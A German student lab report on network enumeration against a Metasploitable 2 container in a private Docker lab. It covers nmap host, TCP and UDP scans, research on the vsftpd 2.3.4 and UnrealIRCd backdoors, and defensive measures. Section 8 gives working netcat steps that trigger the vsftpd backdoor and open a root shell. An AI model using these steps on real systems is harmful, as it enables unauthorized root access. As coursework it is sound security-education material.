



# M182 Auftrag: Enumeration und Fingerprinting

## Inhalt

1. [Ausgangslage](#1-ausgangslage)
2. [Lab-Umgebung](#2-lab-umgebung)
3. [Vorgehen](#3-vorgehen)
4. [Host Discovery](#4-host-discovery)
5. [TCP Scan](#5-tcp-scan)
6. [UDP Scan](#6-udp-scan)
7. [Schwachstellen Recherche](#7-schwachstellen-recherche)
8. [Exploit Durchführung](#8-exploit-durchführung)
9. [Resilienz Massnahmen](#9-resilienz-massnahmen)
10. [Fazit](#10-fazit)
11. [Quellen](#11-quellen)

---

## 1. Ausgangslage

In diesem Auftrag geht es darum, ein fremdes System im Netzwerk zu untersuchen, ohne vorher zu wissen, was darauf läuft. Zuerst suche ich mit einem Netzwerkscan nach aktiven Hosts. Danach schaue ich mir das Zielsystem genauer an und finde heraus, welche Ports offen sind und welche Dienste in welcher Version dahinter laufen. Dieser Schritt heisst Enumeration und Fingerprinting.

Mit diesen Informationen suche ich dann nach bekannten Schwachstellen, nutze eine davon praktisch aus und überlege mir am Schluss, wie man so einen Angriff verhindern kann.

Alle Scans und der Angriff laufen nur in meiner eigenen, abgeschotteten Laborumgebung gegen eine Test-VM, die mir selber gehört. Das ist wichtig, weil Scans und Angriffe gegen fremde Systeme ohne Erlaubnis strafbar sind.

## 2. Lab-Umgebung

Das Labor läuft komplett lokal mit Docker. Es gibt zwei Container im selben Docker-Netz.

| Rolle | Container | System | IP-Adresse |
|-------|-----------|--------|------------|
| Angreifer (Scanner) | `hardeninglab` | Ubuntu 22.04 mit nmap und netcat | 172.17.0.2 |
| Zielsystem | `metasploitable` | Metasploitable 2 | 172.17.0.3 |

Netzwerk: 172.17.0.0/24, Gateway 172.17.0.1


## 3. Vorgehen

Ich arbeite immer vom Container `hardeninglab` aus. Der Ablauf ist in drei Schritten aufgebaut:

1. Zuerst schaue ich, welche Hosts im Netz überhaupt leben (Host Discovery).
2. Dann scanne ich das Ziel 172.17.0.3 genau, einmal über TCP und einmal über UDP.
3. Zum Schluss suche ich zu den gefundenen Diensten nach Schwachstellen und teste eine davon.

## 4. Host Discovery

Als Erstes will ich wissen, welche Geräte im Netz aktiv sind. Dafür nutze ich einen Ping-Scan. Der schaut nur, wer antwortet, und scannt noch keine Ports.

```bash
nmap -sn 172.17.0.0/24
```

Ergebnis: Es sind drei Hosts aktiv.

| IP-Adresse | Bedeutung |
|------------|-----------|
| 172.17.0.1 | Gateway vom Docker-Netz |
| 172.17.0.2 | Mein Scanner (hardeninglab) |
| 172.17.0.3 | Zielsystem (metasploitable) |



Das Ziel für die nächsten Schritte ist also 172.17.0.3.

## 5. TCP Scan

Jetzt scanne ich das Ziel über TCP. Mit `-sV` lese ich die Versionen der Dienste aus und mit `-O` versuche ich das Betriebssystem zu erkennen.

```bash
nmap -sS -sV -O 172.17.0.3
```

Die Optionen kurz erklärt:

| Option | Bedeutung |
|--------|-----------|
| `-sS` | TCP SYN Scan, schnell und etwas unauffälliger |
| `-sV` | Version der Dienste herausfinden (Fingerprinting) |
| `-O` | Betriebssystem erkennen |

Gefundene offene TCP-Ports und Dienste:

| Port | Dienst | Version |
|------|--------|---------|
| 21/tcp | ftp | vsftpd 2.3.4 |
| 22/tcp | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) |
| 23/tcp | telnet | Linux telnetd |
| 25/tcp | smtp | Postfix smtpd |
| 80/tcp | http | Apache httpd 2.2.8 ((Ubuntu) DAV/2) |
| 111/tcp | rpcbind | 2 (RPC #100000) |
| 139/tcp | netbios-ssn | Samba smbd 3.X bis 4.X (workgroup: WORKGROUP) |
| 445/tcp | netbios-ssn | Samba smbd 3.X bis 4.X (workgroup: WORKGROUP) |
| 512/tcp | exec | netkit-rsh rexecd |
| 513/tcp | login | OpenBSD oder Solaris rlogind |
| 514/tcp | shell | tcpwrapped |
| 1099/tcp | java-rmi | GNU Classpath grmiregistry |
| 1524/tcp | ingreslock | Bind-Shell (Backdoor) |
| 2121/tcp | ftp | ProFTPD 1.3.1 |
| 3306/tcp | mysql | MySQL 5.0.51a-3ubuntu5 |
| 5432/tcp | postgresql | PostgreSQL DB 8.3.0 bis 8.3.7 |
| 5900/tcp | vnc | VNC (protocol 3.3) |
| 6000/tcp | X11 | access denied |
| 6667/tcp | irc | UnrealIRCd |
| 8009/tcp | ajp13 | Apache Jserv (Protocol v1.3) |
| 8180/tcp | http | Apache Tomcat/Coyote JSP engine 1.1 |

Betriebssystem: nmap findet keinen exakten Treffer, erkennt aber klar Linux (Unix, Linux, cpe:/o:linux:linux_kernel). Als Hostnamen zeigt nmap `metasploitable.localdomain` und `irc.Metasploitable.LAN`.



Schon hier sieht man: Das System läuft auf uralter Software. Viele Dienste sind viele Jahre alt und dafür gibt es bekannte Schwachstellen.

## 6. UDP Scan

TCP alleine reicht nicht, weil einige Dienste nur über UDP laufen. Ein reiner TCP-Scan würde die übersehen. UDP-Scans dauern länger, darum scanne ich nur ein paar typische Ports.

```bash
nmap -sU -sV -p 53,69,111,137,2049 172.17.0.3
```

Ergebnis UDP:

| Port | Status | Dienst | Version |
|------|--------|--------|---------|
| 53/udp | closed | domain | |
| 69/udp | open\|filtered | tftp | |
| 111/udp | open | rpcbind | 2 (RPC #100000) |
| 137/udp | open | netbios-ns | Samba nmbd netbios-ns (workgroup: WORKGROUP) |
| 2049/udp | closed | nfs | |



Interessant sind hier vor allem rpcbind auf 111/udp und der NetBIOS-Dienst von Samba auf 137/udp. Bei 69/udp meldet nmap open\|filtered, das heisst nmap kann nicht sicher sagen, ob der Port offen ist oder gefiltert wird.

## 7. Schwachstellen Recherche

Aus den Scans habe ich mir zwei Dienste herausgesucht, die bekannte und gut dokumentierte Schwachstellen haben.

### Schwachstelle 1: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

Der FTP-Server auf Port 21 ist vsftpd in der Version 2.3.4. Diese Version wurde 2011 auf dem offiziellen Download-Server manipuliert. In den Quellcode wurde eine Backdoor eingebaut.

Die Backdoor funktioniert so: Wenn man sich mit einem Benutzernamen anmeldet, der mit einem Smiley `:)` endet, öffnet der Server auf Port 6200 eine Shell mit Root-Rechten. Man braucht also kein gültiges Passwort und bekommt trotzdem vollen Zugriff.

Diese Schwachstelle will ich im nächsten Kapitel ausnutzen, weil sie einfach und sauber zu zeigen ist und der Container `hardeninglab` mit netcat alles dabei hat, was man braucht.

### Schwachstelle 2: UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

Auf Port 6667 läuft UnrealIRCd. Auch hier wurde das Installationsarchiv manipuliert und eine Backdoor eingeschleust. Wenn man eine bestimmte Zeichenfolge (`AB;` und danach ein Befehl) an den Server schickt, führt er den Befehl direkt auf dem System aus. Auch das führt zu Codeausführung mit den Rechten des Dienstes.

Diese Schwachstelle habe ich nur recherchiert und nicht ausgeführt.

## 8. Exploit Durchführung

Ich nutze die vsftpd 2.3.4 Backdoor aus. Metasploit brauche ich dafür nicht, netcat reicht. Ich arbeite vom Container `hardeninglab` aus.

**Schritt 1: Backdoor auslösen**

Ich verbinde mich auf den FTP-Port und melde mich mit einem Benutzernamen an, der auf `:)` endet. Das Passwort ist egal.

```bash
nc 172.17.0.3 21
USER hacker:)
PASS test
```

Die Verbindung bleibt danach stehen. Im Hintergrund hat der Server jetzt Port 6200 geöffnet.

**Schritt 2: Mit der Root-Shell verbinden**

In einem zweiten Terminal im selben Container verbinde ich mich auf Port 6200. Dort habe ich dann direkt eine Shell.

```bash
nc 172.17.0.3 6200
id
whoami
uname -a
```

**Ergebnis:**

```
id       -> uid=0(root) gid=0(root)
whoami   -> root
```


## 9. Resilienz Massnahmen

Hier sind drei konkrete Massnahmen, die diesen Angriff auf der Seite des Zielsystems verhindert hätten.

**1. Patchmanagement und Software nur aus vertrauenswürdigen Quellen**

Die vsftpd Backdoor kam über ein manipuliertes Download-Archiv ins System. Wenn man Software nur aus den offiziellen Paketquellen installiert und die Signaturen bzw. Prüfsummen kontrolliert, fällt so eine Manipulation auf. Dazu gehört auch, Updates regelmässig einzuspielen, damit alte Versionen mit bekannten Lücken gar nicht erst laufen.

**2. Angriffsfläche minimieren**

Auf dem Zielsystem laufen viele Dienste, die niemand braucht, zum Beispiel Telnet, die r-Dienste auf 512 bis 514 und die Bind-Shell auf 1524. Jeder offene Dienst ist ein möglicher Einstiegspunkt. Was nicht gebraucht wird, sollte abgeschaltet und deinstalliert werden. So hätte der Angreifer gar nicht erst einen offenen FTP-Dienst mit dieser Version gefunden.

**3. Firewall und Netzwerksegmentierung**

Mit einer Firewall lässt sich festlegen, dass nur die wirklich nötigen Ports von aussen erreichbar sind. Zusätzlich kann man das Zielsystem in ein eigenes Netzsegment stellen, das vom Rest getrennt ist. Selbst wenn ein Dienst übernommen wird, kommt der Angreifer dann nicht einfach überall hin.

## 10. Fazit

Mit Enumeration und Fingerprinting konnte ich das Zielsystem komplett abbilden, ohne vorher etwas darüber zu wissen. Ich habe alle aktiven Hosts gefunden und beim Ziel die offenen TCP- und UDP-Ports mit ihren Dienstversionen bestimmt. Dabei war schnell klar, dass das System sehr alte Software betreibt.

Über die vsftpd 2.3.4 Backdoor habe ich gezeigt, wie aus so einer veralteten Version ein vollständiger Root-Zugriff wird. Die wichtigsten Gegenmassnahmen sind saubere und aktuelle Software, möglichst wenige offene Dienste und eine Firewall mit Netztrennung.

## 11. Quellen

- Rapid7, Metasploitable 2 Exploitability Guide: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
- NVD, CVE-2011-2523 (vsftpd 2.3.4 Backdoor): https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- NVD, CVE-2010-2075 (UnrealIRCd 3.2.8.1 Backdoor): https://nvd.nist.gov/vuln/detail/CVE-2010-2075
- nmap Dokumentation: https://nmap.org/book/man.html
